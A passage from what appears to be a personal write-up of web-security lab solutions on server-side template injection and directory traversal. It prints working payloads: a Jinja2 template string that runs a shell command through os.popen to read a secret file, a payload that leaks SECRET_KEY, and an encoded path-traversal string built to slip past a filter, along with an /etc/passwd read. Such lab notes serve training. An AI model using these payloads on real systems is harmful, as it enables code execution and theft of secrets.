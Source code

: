 ### 4. Server-side template injection in an unknown language with a documented exploit
>NodeJS Handlebars exploit
>https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#handlebars-nodejs


### 5. Server-side template injection with information disclosure via user-supplied objects
>Python Jinja2
```
{{settings.SECRET_KEY}}
```


### 6. Admin panel Password Reset Email SSTI
>Jinja2  

![image](https://user-images.githubusercontent.com/58632878/231809302-f33ab8c9-da30-4542-ad9f-7dbd9502c822.png)  
```
newEmail={{username}}!{{+self.init.globals.builtins.import('os').popen('cat+/home/carlos/secret').read()+}}
&csrf=csrf
```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2


# Directory traversal
## Approach
Just scan it with Burp. It will make all the work. If you can get /etc/passwd, but cannot get /home/carlos/secret (maybe WAF is blocking the word **secret**), just URL-Encode the whole payload (even with /home/carlos/secret) like this:
```
/image?filename=%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%38%25%36%66%25%36%64%25%36%35%25%32%66%25%36%33%25%36%31%25%37%32%25%36%63%25%36%66%25%37%33%25%32%66%25%37%33%25%36%35%25%36%33%25%37%32%25%36%35%25%37%34
```
   
Arises at **/image?filename=**
![image](https://user-images.githubusercontent.com/58632878/224710901-845ab379-87ab-4a11-b2a0-09b7496242ed.png)  
  
Personally recommend you to turn on images inspection in proxy setting to easily detect this type:  
![image](https://user-images.githubusercontent.com/58632878/224711556-9b533792-59cd-4d71-9c1c-9c19b535fa5a.png)  


## Labs
### 1. File path traversal, traversal sequences blocked with absolute path bypass
```
/image?filename=/etc/passwd
```
